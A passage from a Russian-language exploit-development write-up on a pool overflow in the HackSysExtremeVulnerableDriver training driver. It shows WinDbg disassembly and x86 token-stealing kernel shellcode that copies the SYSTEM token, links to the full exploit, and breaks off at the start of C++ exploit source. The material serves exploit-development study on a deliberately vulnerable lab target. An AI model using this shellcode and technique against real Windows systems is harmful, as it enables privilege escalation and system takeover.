 ```js
82886555 ff7518          push    dword ptr [ebp+18h]
82886558 ff7514          push    dword ptr [ebp+14h]
8288655b ff74241c        push    dword ptr [esp+1Ch]
8288655f ff7510          push    dword ptr [ebp+10h]
82886562 ff5374          call    dword ptr [ebx+74h]
82886565 84c0            test    al,al
82886567 7561            jne     nt!ObpCloseHandleTableEntry+0xd2 (828865ca)


```

Видим пуши, которые нужно будет компенсировать попом в конце шеллкода

```js
kd> dd 0x0
00000000  00000000 00000000 00000000 00000000
00000010  00000000 00000000 00000000 00000000
00000020  00000000 00000000 00000000 00000000
00000030  00000000 00000000 00000000 00000000
00000040  00000000 00000000 00000000 00000000
00000050  00000000 00000000 00000000 00000000
00000060  00060000 00000000 00000000 00000000
00000070  00000000 00000000 00000000 00000000
kd> u 00060000 L15
00060000 60              pushad
00060001 64a124010000    mov     eax,dword ptr fs:[00000124h]
00060007 8b4050          mov     eax,dword ptr [eax+50h]
0006000a 89c1            mov     ecx,eax
0006000c 8b98f8000000    mov     ebx,dword ptr [eax+0F8h]
00060012 ba04000000      mov     edx,4
00060017 8b80b8000000    mov     eax,dword ptr [eax+0B8h]
0006001d 2db8000000      sub     eax,0B8h
00060022 3990b4000000    cmp     dword ptr [eax+0B4h],edx
00060028 75ed            jne     00060017
0006002a 8b90f8000000    mov     edx,dword ptr [eax+0F8h]
00060030 8991f8000000    mov     dword ptr [ecx+0F8h],edx
00060036 61              popad
00060037 c21000          ret     10h
0006003a 0000            add     byte ptr [eax],al
0006003c 0000            add     byte ptr [eax],al
0006003e 0000            add     byte ptr [eax],al
00060040 0000            add     byte ptr [eax],al
00060042 0000            add     byte ptr [eax],al
00060044 0000            add     byte ptr [eax],al
00060046 0000            add     byte ptr [eax],al
```

![cmd screen](/assets/post_images/10.png)

[Полный код](https://github.com/h0mbre/Windows-Exploits/blob/master/Exploit-Code/HEVD/x86_PoolOverflow.cpp)

```cpp
#include <iostream>
#include <vector>
#include <Windows.h>

using namespace std;

#define DEVICE_NAME         "\\\\.\\HackSysExtremeVulnerableDriver"
#define IOCTL               0x22200F

typedef NTSTATUS(WINAPI* _NtAllocateVirtualMemory)(
    HANDLE ProcessHandle,
    PVOID* BaseAddress,
```